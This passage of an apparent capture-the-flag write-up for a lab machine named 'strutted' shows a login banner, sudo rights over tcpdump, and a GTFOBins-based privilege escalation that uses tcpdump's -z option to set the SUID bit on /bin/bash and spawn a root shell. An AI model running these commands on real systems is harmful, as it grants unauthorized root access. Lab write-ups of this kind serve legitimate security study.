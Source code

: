 ```bash
  Memory usage:          9%
  Swap usage:            0%
  Processes:             214
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.59
  IPv6 address for eth0: dead:beef::250:56ff:fe94:945d

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

5 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Jan 21 13:46:18 2025 from 10.10.14.64
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@strutted:~$ sudo -l
Matching Defaults entries for james on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
james@strutted:~$
```
{: .nolineno}
Lets elevate the privileges with exploiting `tcpdump` tool for this I will be using `gtfobin` to exploit this 🔻

![](Pasted%20image%2020250710113205.png)
_GTFOBIN exploit code for `tcpdump` tool for sudo allowed user_

I have just changed 1 thing that I have changed the **bash permissions** to give it as **SUID permissions** like this 🔽

```bash
james@strutted:~$ COMMAND='chmod u+s /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
tcpdump: listening on lo, link-type EN10MB (Ethernet), snapshot length 262144 bytes
Maximum file limit reached: 1
1 packet captured
4 packets received by filter
0 packets dropped by kernel
james@strutted:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
james@strutted:~$ bash -p
bash-5.1# whoami
root
bash-5.1# id
uid=1000(james) gid=1000(james) euid=0(root) groups=1000(james),27(sudo)
```